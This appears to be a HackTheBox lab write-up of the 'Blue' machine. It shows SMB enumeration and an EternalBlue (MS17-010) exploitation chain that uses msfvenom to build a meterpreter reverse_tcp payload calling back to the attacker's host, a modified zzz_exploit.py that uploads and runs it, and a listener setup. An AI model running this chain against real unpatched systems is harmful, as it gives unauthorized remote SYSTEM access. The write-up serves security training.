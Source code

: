 [HackTheBox] Blue
===============
date: 01/Nov/2019
summary: This is a writeup for HackTheBox machine Blue.
tags: hackthebox, writeup

## Overview
This is a writeup for HTB VM [Blue](https://www.hackthebox.eu/home/machines/profile/51). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_htb_blue/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_htb_blue/killchain.png.webp)

### TTPs
1\. `139/tcp/netbios-ssn/Microsoft Windows netbios-ssn`: [exploit_smb_ms17_010](https://github.com/7h3rAm/writeups#exploit_smb_ms17_010)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Nov  1 17:05:41 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.blue/results/10.10.10.40/scans/xml/_quick_tcp_nmap.xml 10.10.10.40
Nmap scan report for 10.10.10.40
Host is up, received user-set (0.15s latency).
Scanned at 2019-11-01 17:05:41 PDT for 171s
Not shown: 991 closed ports
Reason: 991 resets
PORT      STATE SERVICE      REASON          VERSION
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  unknown      syn-ack ttl 127
49156/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 57283/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12383/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19006/udp): CLEAN (Timeout)
|   Check 4 (port 60472/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 17:08:32 2019 -- 1 IP address (1 host up) scanned in 171.43 seconds
```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_blue/openports.png.webp)  

3\. We find SMB ports to be open on the target system. We run a Nmap NSE script scan to check if the SMB service is vulnerable:  
```
nmap -p139,445 --script smb-vuln-* --script-args=unsafe=1 10.10.10.40
```

![writeup.enumeration.steps.3.1](/static/files/posts_htb_blue/screenshot01.png.webp)  

4\. We find that the target system is missing patches from [MS17-010](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) bulletin and as such vulnerable. We can use the [zzz_exploit.py](https://github.com/worawit/MS17-010) EternalBlue exploit to gain interactive access. But before that we need to determine the target OS version and the name of an active pipe.  

5\. We first use Metasploit auxiliary module `scanner/smb/smb_version` to determine target OS version to be `Windows 7 Professional SP1 (build:7601) (name:HARIS-PC)`:  
```
msfconsole
  use auxiliary/scanner/smb/smb_version
  show options
  set RHOSTS 10.10.10.40
  run
```

![writeup.enumeration.steps.5.1](/static/files/posts_htb_blue/screenshot02.png.webp)  

6\. Then we use another Metasploit auxiliary module `scanner/smb/pipe_auditor` to find multiple open pipes `\netlogon, \lsarpc, \samr, \browser, \atsvc, \epmapper, \eventlog, \InitShutdown, \keysvc, \lsass, \LSM_API_service, \ntsvcs, \plugplay, \protected_storage, \scerpc, \srvsvc, \trkwks, \W32TIME_ALT, \wkssvc`:  
```
msfconsole
  use auxiliary/scanner/smb/pipe_auditor
  show options
  set RHOSTS 10.10.10.40
  run
```

![writeup.enumeration.steps.6.1](/static/files/posts_htb_blue/screenshot03.png.webp)  

### Findings
#### Open Ports
```
135/tcp    |  msrpc         |  Microsoft Windows RPC
139/tcp    |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp    |  microsoft-ds  |  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp  |  msrpc         |  Microsoft Windows RPC
49153/tcp  |  msrpc         |  Microsoft Windows RPC
49154/tcp  |  msrpc         |  Microsoft Windows RPC
49155/tcp  |  unknown       |
49156/tcp  |  msrpc         |  Microsoft Windows RPC
49157/tcp  |  msrpc         |  Microsoft Windows RPC
```

## Phase #2: Exploitation
1\. We now need to create a binary payload file. For this exploit, we will use `meterpreter` as the payload and then use `multi/handler` to catch the incoming shell connection. We then slightly tweak the exploit file to first copy the binary payload on to the target system and execute it:  
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.18 lport=443 -f exe >mtrptr.exe
subl zzz_exploit.py
  def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()
    print('creating file c:\\pwned.txt on the target')
    tid2 = smbConn.connectTree('C$')
    fid2 = smbConn.createFile(tid2, '/pwned.txt')
    smbConn.closeFile(tid2, fid2)
    smbConn.disconnectTree(tid2)
    + smb_send_file(smbConn, '/root/toolbox/writeups/htb.blue/mtrptr.exe', 'C', '/mtrptr.exe')
    + service_exec(conn, r'cmd /c c:\\mtrptr.exe')
msfconsole
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set lhost 10.10.14.18
  set lport 443
  set ExitOnSession false
  exploit -j
python zzz_exploit.py 10.10.10.40 netlogon
msfconsole
  sessions -i 1
  getuid
```

![writeup.exploitation.steps.1.1](/static/files/posts_htb_blue/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_blue/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_htb_blue/screenshot06.png.webp)  

![writeup.exploitation.steps.1.4](/static/files/posts_htb_blue/screenshot07.png.webp)  

![writeup.exploitation.steps.1.5](/static/files/posts_htb_blue/screenshot08.png.webp)  

2\. We then obtain further information about the system and read the contents of both user.txt and root.txt files to comeplete the challenge:  
```
sysinfo
cat C:\Users\haris\Desktop\user.txt
cat C:\Users\haris\Desktop\root.txt
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_blue/screenshot09.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_htb_blue/screenshot10.png.webp)  

![writeup.exploitation.steps.2.3](/static/files/posts_htb_blue/screenshot11.png.webp)  

## Phase #2.5: Post Exploitation
```
ntauth/system@HARIS-PC> id
NT AUTHORITY\SYSTEM
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> uname
Computer        : HARIS-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IPv6 Address. . . . . . . . . . . : dead:beef::c530:b184:97a4:fd67
  Temporary IPv6 Address. . . . . . : dead:beef::4d8e:bdfd:4c8b:3189
  Link-local IPv6 Address . . . . . : fe80::c530:b184:97a4:fd67%11
  IPv4 Address. . . . . . . . . . . : 10.10.10.40
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:db57%11
                                      10.10.10.2
ntauth/system@HARIS-PC>  
ntauth/system@HARIS-PC> users
Administrator
haris
```

## Loot
### Flags
```
C:\Users\haris\Desktop\user.txt: 4c546aea7dbee75cbd7.............
C:\Users\Administrator\Desktop\root.txt: ff548eb71e920ff6c0..............
```

## References
* <https://www.hackthebox.eu/home/machines/profile/51>  
* <https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125>  
